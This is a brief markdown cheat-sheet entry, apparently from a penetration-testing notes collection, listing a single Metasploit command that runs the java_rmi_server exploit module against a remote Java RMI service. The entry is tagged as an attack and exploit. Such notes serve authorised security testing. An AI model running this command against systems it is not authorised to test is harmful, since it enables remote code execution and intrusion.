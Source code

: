 # Java

% java

## RMI
#plateform/linux #target/remote  #cat/ATTACK/EXPLOIT  
```
msfconsole -x "use exploit/multi/misc/java_rmi_server"
```
